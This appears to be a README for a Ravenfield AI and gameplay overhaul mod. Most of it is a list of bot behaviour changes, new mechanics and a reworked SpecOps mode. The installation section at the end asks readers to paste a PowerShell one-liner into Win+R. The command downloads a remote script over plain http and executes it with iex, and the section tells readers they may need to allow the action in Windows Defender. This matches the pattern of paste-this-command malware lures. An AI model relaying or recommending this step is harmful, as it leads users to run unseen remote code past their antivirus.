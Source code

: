 # HavenM - AI and Gameplay Overhaul for Ravenfield

## What is HavenM?
HavenM is a game-changing AI and gameplay overhaul mod for *Ravenfield*, designed to enhance immersion, realism, and challenge. By modifying the game's DLL using *dnSpy*, this mod pushes AI behavior and game mechanics far beyond the vanilla experience.

## Why Modify the Game DLL with dnSpy?
Ravenfield's default AI often feels too predictable, lacking the tactical decision-making and combat awareness that could make battles more engaging. Over nearly two years of dedicated work, HavenM was created to introduce smarter, more reactive AI and refined game mechanics, offering a significantly improved experience.

---
## Key Features & Changes

### AI Improvements
- **Tactical Movement & Reactions**
  - AI soldiers go **prone under fire**, making them harder to hit.
  - AI no longer **auto-crouches** but instead jogs to objectives when not under fire, improving pacing and movement fluidity.
  - AI **halts vehicles to fire weapons**, with behavior influenced by skill level and weapon type.
  - AI **stops, aims, fires, and tracks targets** when using wire-guided missile weapons, greatly enhancing anti-vehicle effectiveness.
  - AI **exits vehicles when submerged** in water and leaves aircraft when stuck, preventing soft-lock situations.
  
- **Combat Behavior & Engagements**
  - AI **fires more aggressively**, reducing hesitation and making firefights more intense.
  - AI from **all skill levels can lean**.
  - AI **hides behind cover when under fire**.
  - AI **provides suppressive fire** on known enemy positions.
  - AI **prioritizes high-threat targets** like mortar teams rather than engaging randomly.
  - AI **engages low-flying and slow-moving aircraft**, making landing helicopters and air support more vulnerable.
  - AI **randomizes weapon switching** based on target engagement effectiveness, preventing predictable behavior.
  - AI **switches between grenades, under-barrel grenade launchers, and melee weapons** when appropriate.
  - Vehicles with **low passenger counts halt more often to provide fire support** instead of recklessly rushing into battle.
  - **Airplanes perform better** in air-to-ground attacks, adjusting tactics based on weapon loadout.
  - AI **driving vehicles now reverse based on their actual reverse speed**, reducing vehicle-stuck issues (e.g., T-72 tank).
  - AI **loadouts are randomized**.
  - AI **no longer drops their target** in SpecOps mode or when within **40m of an enemy**.
  - AI **panic fires when an enemy is within 20m**, ignoring weapon effectiveness (works well with kamikaze vehicle mods).
  - AI **piloting helicopters slows down and stabilizes** when spotting an enemy while using wire-guided missiles, improving targeting accuracy.
  - AI **grouped near cover is now considered an infantry group**, allowing explosives to target them effectively.

### New Game Mechanics
- **Weapon Mounting System**
  - Inspired by *Rising Storm: Vietnam*, players can now mount weapons on surfaces for improved accuracy and stability.

- **Advanced Missile Targeting**
  - Missiles **predict target movement** instead of flying straight, making dogfights and anti-vehicle combat more challenging.
  - Flares **don't stop missile locks**, but they confuse missiles, causing them to veer off unpredictably instead of always missing.

- **Simple Penetration System**
  - High-damage weapons now have penetration mechanics:
    - **Bullets & explosives pass through cover** if they deal **over 100 damage**.
    - **Explosives ignore cover & explode** if their damage is over **900**.

---
## Overhauled SpecOps Game Mode
HavenM includes a **complete revamp** of the SpecOps mode, making it more dynamic and challenging:

- **Dynamic enemy spawns**, ensuring unpredictable encounters.
- **Customizable objectives & enemy count**, allowing for tailored difficulty (bot number controls AI per objective, respawn timer controls objective count).
- AI **exits vehicles** when the player is nearby to engage in direct combat.
- AI **flanks and ambushes players** based on skill level.
  - **Normal & lower-skill bots** rush to the player's last known position.
  - **Veteran bots** hold back, providing fire support and ambushing players who move carelessly.
- **Increased enemy spawns during exfiltration**, making the escape phase more intense.
- AI **no longer needs direct line of sight to fire flares**—they react when alerted instead.

Installation 
Copy this command, Win+R to open "Run" windows, paste it, and press Enter.

It will create an Updater shortcut in Desktop.

**YOU MAY NEED TO ALLOW THIS ACTION ON YOUR** [WINDOWS DENFENDER](windowsdefender://threat) **FOR THE FIRST TIME!!!**
```batch
powershell -nop -c "$w=(New-Object System.Net.WebClient);$w.Encoding=[System.Text.Encoding]::UTF8;iex($w.DownloadString('http://ravenfieldcommunity.github.io/static/get_havenm-utf8.ps1'));Read-Host;"
```
